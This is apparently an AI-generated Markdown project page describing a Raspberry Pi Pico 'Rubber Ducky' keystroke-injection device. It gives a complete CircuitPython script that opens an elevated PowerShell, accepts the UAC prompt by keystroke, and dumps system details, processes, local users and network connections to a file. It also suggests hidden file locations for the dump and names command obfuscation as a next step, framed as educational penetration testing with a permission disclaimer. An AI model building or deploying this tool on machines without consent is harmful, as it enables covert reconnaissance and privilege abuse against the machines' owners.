 Sure! Here's the content formatted as a clean Markdown (`.md`) file ready for GitHub or your blog:

````markdown
# 🛠️ Project: Offline USB Rubber Ducky with Raspberry Pi Pico

## 🎯 Goal  
Create a *Rubber Ducky*-style device using a Raspberry Pi Pico that, when plugged into a computer, automatically collects system information and saves it locally for later analysis—without needing internet connection or external scripts.

> This project was developed for educational purposes and testing in controlled environments (*ethical hacking lab environment*).

## 📦 What is a Rubber Ducky?  
A *USB Rubber Ducky* is a device that emulates a USB keyboard and can automatically type commands when connected to a machine. It is widely used in penetration testing and physical security demonstrations.

## ⚙️ Tools Used  
- **Raspberry Pi Pico**  
- **CircuitPython**  
- [Adafruit HID Library](https://github.com/adafruit/Adafruit_CircuitPython_HID)  
- **PowerShell** (for the payload)  
- Base project: [`pico-ducky`](https://github.com/dbisu/pico-ducky) by [dbisu](https://github.com/dbisu)  

## 📋 What does the device do?  
When the Raspberry Pi Pico is plugged into a PC:  
1. It emulates a keyboard (HID).  
2. Opens PowerShell with administrator privileges.  
3. Executes a series of commands to collect:  
   - System information (`Get-ComputerInfo`)  
   - Active processes (`Get-Process`)  
   - Local users (`Get-LocalUser`)  
   - TCP network connections (`Get-NetTCPConnection`)  
4. Saves all the information into a file named `audit.txt` on the Desktop.

### 📁 Hidden alternative locations  
```powershell
$out = "$env:APPDATA\Microsoft\Windows\Recent\syscache.txt"
# or
$out = "C:\ProgramData\sysinfo.log"
````

## 💻 Code (CircuitPython)

```python
import time
import board
import usb_hid
from adafruit_hid.keyboard import Keyboard
from adafruit_hid.keyboard_layout_us import KeyboardLayoutUS
from adafruit_hid.keycode import Keycode

keyboard = Keyboard(usb_hid.devices)
layout = KeyboardLayoutUS(keyboard)

time.sleep(3)

keyboard.press(Keycode.GUI, Keycode.R)
keyboard.release_all()
time.sleep(0.5)

layout.write("powershell\n")
time.sleep(1)

keyboard.press(Keycode.CONTROL, Keycode.SHIFT, Keycode.ENTER)
keyboard.release_all()
time.sleep(1.2)

keyboard.press(Keycode.ALT, Keycode.Y)
keyboard.release_all()
time.sleep(0.8)

payload = (
    '$out = "$env:USERPROFILE\\Desktop\\audit.txt"; '
    'Get-ComputerInfo | Out-File $out; '
    'Get-Process | Out-File $out -Append; '
    'Get-LocalUser | Out-File $out -Append; '
    'Get-NetTCPConnection | Out-File $out -Append'
)

layout.write(payload + '\n')
time.sleep(1)
layout.write("exit\n")
```

## 📷 Results

```
ComputerName           : VICTIM-PC
OSName                 : Microsoft Windows 10 Pro
SystemType             : x64-based PC
Username               : VICTIM\user
...
--- Process List ---
Name                  ID          CPU
------------------   ----------  ----
explorer.exe         1234        3.2
chrome.exe           4567        7.8

--- Users ---
Name                 Enabled
------------------   -------
Admin                True
Guest                False
```

## 🛡️ Ethical Considerations

This type of project can be used for:

* Physical security testing
* USB attack demonstrations
* Cybersecurity labs
* Penetration testing training

> **⚠️ Important:** Never use tools like this on systems you do not own or without explicit permission.

## 🔄 Next Steps

* Version with multiple selectable payloads (via physical button)
* Screenshot and clipboard capture
* Command obfuscation
* System language detection (keyboard layout)

## 📌 Conclusion

This project is a powerful demonstration of how an affordable device like the Raspberry Pi Pico can be used to automate complex tasks in seconds.